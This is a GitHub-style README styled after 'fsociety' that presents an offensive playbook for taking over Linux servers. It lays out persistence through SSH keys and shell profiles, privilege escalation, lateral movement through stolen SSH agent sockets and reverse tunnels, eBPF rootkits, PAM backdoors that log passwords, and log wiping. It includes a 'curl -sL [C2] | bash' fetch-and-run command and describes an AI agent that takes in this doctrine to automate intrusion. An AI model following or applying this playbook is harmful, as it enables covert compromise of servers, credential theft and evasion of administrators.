

  

<pre>
███████╗███████╗ ██████╗  ██████╗██╗███████╗████████╗██╗   ██╗
██╔════╝██╔════╝██╔═══██╗██╔════╝██║██╔════╝╚══██╔══╝╚██╗ ██╔╝
█████╗  ███████╗██║   ██║██║     ██║█████╗     ██║    ╚████╔╝ 
██╔══╝  ╚════██║██║   ██║██║     ██║██╔══╝     ██║     ╚██╔╝  
██║     ███████║╚██████╔╝╚██████╗██║███████╗   ██║      ██║   
╚═╝     ╚══════╝ ╚═════╝  ╚═════╝╚═╝╚══════╝   ╚═╝      ╚═╝   
</pre>

# <samp>Playbook: Linux_&_Servers_Intrusion</samp>
**<samp>UNIX Subversion | Kernel-Space Annihilation | Living off the Land</samp>**

 

<samp>Architect: <a href="https://github.com/fsoc-ghost-0x">C0deGhost</a> | Status: ACTIVE | Classification: SYSTEM_ROOT_RESTRICTED</samp>

  

 

> **[ DIRECTIVE LOG ]**
> **Purpose:** Standardize the methodology for breaching, escalating, and dominating Linux/UNIX based server infrastructures.
> **Scope:** Applied across standalone Linux servers, clustered web architectures, and containerized host nodes operating under the UNIX philosophy.

 

## <samp>▌ <u>0x01_THE_UNIX_FRONTIER (PHILOSOPHY)</u></samp>

<samp>
In Linux, "Everything is a file". This philosophy is their greatest strength and their fatal flaw. 
  
We do not blindly execute public exploits. We audit the logic of the environment. A Linux server is a machine of pure execution; if we control the paths, the cronjobs, the shared libraries (<code>LD_PRELOAD</code>), or the execution capabilities, we control the machine. This playbook mandates silent, surgical incursion. We ascend from an unprivileged web shell (<code>www-data</code>) to absolute Ring-0 control (<code>#root</code>) without generating noisy logs, ending with the deployment of eBPF rootkits that make our presence mathematically invisible to the system administrator.
</samp>

 

## <samp>▌ <u>0x02_EXECUTION_PHASES (THE ROOT PATH)</u></samp>

| <samp>Phase</samp> | <samp>Tactical Objective</samp> | <samp>Execution Methodology</samp> |
| :--- | :--- | :--- |
| <samp><b>1. Foothold & Stealth Recon</b></samp> | <samp>Map the Local Environment</samp> | <samp>Deployment of silent enumeration scripts entirely in RAM. Mapping SUID/SGID binaries, cron tasks, writeable paths, exposed internal ports, and misconfigured Capabilities (e.g., <code>cap_setuid+ep</code>). No touching disk unless writing to <code>/dev/shm</code>.</samp> |
| <samp><b>2. Ring-3 Persistence</b></samp> | <samp>Secure the Beachhead</samp> | <samp>Before ascending, ensure survival. Injection of malicious SSH keys, hijacking `.bashrc` / `.zshrc` profiles, or poisoning <code>systemd</code> user timers to maintain access if the initial web vulnerability is patched.</samp> |
| <samp><b>3. Vertical Subversion (LPE)</b></samp> | <samp>The Jump to #Root</samp> | <samp>Exploitation of logical flaws: Wildcard injection in cron, Path hijacking, or Shared Library Hijacking. If logic is secure, deploy Kernel-space exploits (UAF, DirtyPipe variants) sourced directly from <code>Alderson_Core</code>.</samp> |
| <samp><b>4. Lateral Movement & Pivoting</b></samp> | <samp>Expand the Blast Radius</samp> | <samp>Execution of SSH Hijacking (stealing active SSH agent sockets from <code>/tmp</code>). Deployment of <code>Chisel</code> or <code>FRP</code> in memory to establish reverse SOCKS5 proxies, tunneling attack traffic deep into the isolated internal network.</samp> |
| <samp><b>5. Absolute Dominance (Ring-0)</b></samp> | <samp>Invisibility & Total Control</samp> | <samp>Deployment of custom eBPF (Extended Berkeley Packet Filter) or LKM (Loadable Kernel Module) rootkits. Hiding processes, hiding network connections, logging SSH passwords via PAM backdoors, and wiping the <code>auth.log</code> / <code>syslog</code> traces.</samp> |

 

## <samp>▌ <u>0x03_THE_TACTICAL_ARSENAL (LINUX)</u></samp>

<samp>To bypass modern Linux EDRs (e.g., CrowdStrike Falcon for Linux, Auditd), we utilize customized, obfuscated variants from our proprietary forge:</samp>

*   **Custom eBPF Rootkits:** Stealth implants that manipulate system calls at the kernel level without triggering traditional Loadable Kernel Module (LKM) alarms.
*   **Polymorphic ELF Injectors:** Tools designed to inject malicious shellcode into running, legitimate processes (e.g., `nginx` or `sshd`) using `ptrace` for fileless execution.
*   **PAM-Backdoors:** Custom Pluggable Authentication Modules (PAM) compiled to accept a universal master password while simultaneously logging all legitimate user credentials to a hidden sector.
*   **In-Memory LinPEAS (Stripped):** Reconnaissance scripts stripped of all known signatures, executed via `curl -sL [C2] | bash` to evade static analysis.

 

## <samp>▌ <u>0x04_ATTACK_FLOW (THE KILL-CHAIN)</u></samp>

<samp>Visual representation of the Linux Server Annihilation process:</samp>

 

## <samp>▌ <u>0x05_PROJECT_ARCHON_INTEGRATION (TERMINUS)</u></samp>

<samp>
This playbook serves as the execution core for <b>[+] TERMINUS</b>.
  
When the NEXUS breaches a UNIX environment, the AI delegates control to TERMINUS. The agent ingests this doctrine to understand that brute-forcing is lethal to OPSEC. It learns to read the exact architecture of the machine, favoring logical Local Privilege Escalation (LPE) before engaging risky Kernel-space payloads. TERMINUS automates the transition from a reverse shell to an invisible, persistent rootkit.
</samp>

 

 
<samp><strong>WE ARE FSOCIETY. WE ARE FINALLY FREE. WE ARE FINALLY AWAKE.</strong></samp>

